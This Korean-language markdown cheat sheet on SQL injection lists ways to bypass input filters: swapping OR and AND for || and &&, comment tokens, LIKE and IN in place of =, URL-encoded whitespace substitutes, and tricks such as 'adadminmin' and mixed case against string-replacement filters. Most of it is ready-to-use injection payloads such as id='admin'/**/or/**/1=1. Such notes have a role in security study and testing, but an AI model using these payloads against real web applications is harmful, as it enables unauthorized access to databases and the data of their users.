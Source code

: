 # SQL injection

### 필터링 우회

OR/AND     
->  ||/&&   
ex) select * from table where id='admin' or 1=1   
->  select * from table where id='admin' || 1=1   
ex) select * from table where id='admin' and pw='password'   
->  select * from table where id='admin' && pw='password'   

주석   
->  -- # ;%00 -- - %23 /**/   
-- 주석 뒤에 공백문자가 있어야 된다.  
-- - 주석   
%23는 #을 의미한다.  
/*  주석할 내용  */   

=   
->  like in   
ex) select * from table where id='admin'  
->  select * from table where id like 'admin'   
->  select * from table where id in('admin')   

공백문자   
* tab : %09
* line feed(\n) : %0a
* carrage return(\r) : %0d
* 주석 : /**/
* 괄호 : ()
* 더하기 : +   
ex) id='admin' or 1=1   
->  id='admin'%09or%091=1   
->  id='admin'%0aor%0a1=1   
->  id='admin'%0dor%0d1=1   
->  id='admin'/**/or/**/1=1   
->  id=(admin)or(1=1)   
->  id="admin"+or+1=1   

특정 문자열    
replace   
replace("admin","",$in) 일 때   
adadminmin으로 우회 가능   
+을 사용해서 우회   
ad+min우회   
대소문자를 이용하여 우회   
aDmIn으로 우회   
